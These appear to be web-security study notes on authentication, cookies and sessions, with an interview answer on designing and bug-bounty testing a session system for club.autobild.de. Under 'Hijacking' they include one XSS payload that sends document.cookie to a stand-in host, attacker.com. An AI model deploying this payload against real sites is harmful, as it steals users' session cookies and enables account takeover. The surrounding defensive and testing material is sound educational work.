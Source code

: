 
### Quick Notes (5-6 Points)
- **Authentication**: Verifies identity (e.g., password, MFA). Test for weak credentials.
- **Authorization**: Controls permissions (e.g., RBAC). Test for IDOR, privilege escalation.
- **Encryption**: Reversible data protection (e.g., AES). Test for weak TLS.
- **Hashing**: Irreversible integrity check (e.g., bcrypt). Test for weak algorithms.
- **Cookies**: Store session IDs or preferences. Test for missing `HttpOnly`, `Secure`, `SameSite`.
- **Sessions**: Maintain state with tokens. Test for fixation, hijacking, CSRF.

---

### Advanced Interview Question
**Question**: How would you design a secure session system for `club.autobild.de` and test it for vulnerabilities in a bug bounty program?

**Answer**:
- **Design**:
  - **Authentication**: Use username/password + MFA (OTP via SMS).
  - **Session Creation**: Generate a 64-char random session ID with `secrets.token_hex(32)`. Store in Redis with user ID, role, expiration (30 min), and CSRF token.
  - **Cookie**: Set `session_id` cookie with `Secure`, `HttpOnly`, `SameSite=Strict`.
  - **Validation**: Check session ID and expiration on each request. Verify CSRF tokens for POSTs.
  - **Logout**: Delete session from Redis, clear cookie.
  - **Mitigations**: Regenerate session ID post-login, use HTTPS, enforce timeouts.
- **Testing**:
  - **Fixation**: Reuse pre-login session ID to check regeneration.
  - **Hijacking**: Steal cookies via XSS (`<script>fetch('attacker.com?cookie='+document.cookie)</script>`).
  - **CSRF**: Submit forms without CSRF tokens to test verification.
  - **Attributes**: Inspect cookies for `HttpOnly`, `Secure`, `SameSite` in Burp Suite.
  - **Predictability**: Test for sequential session IDs.
- **Reporting**:
  - Submit via Intigriti:
    - Subdomain: `club.autobild.de`.
    - Vulnerability: e.g., Session fixation.
    - PoC: Steps to reuse session ID.
    - Impact: “Allows unauthorized access.”
  - Suggest mitigations: Regenerate IDs, secure cookies.
- **Ethics**: Use test accounts, avoid real user impact.

---

Set-Cookie: session_id=abc123xyz; Secure; HttpOnly; SameSite=Strict; Max-Age=1800; Path=/; Domain=club.autobild.de

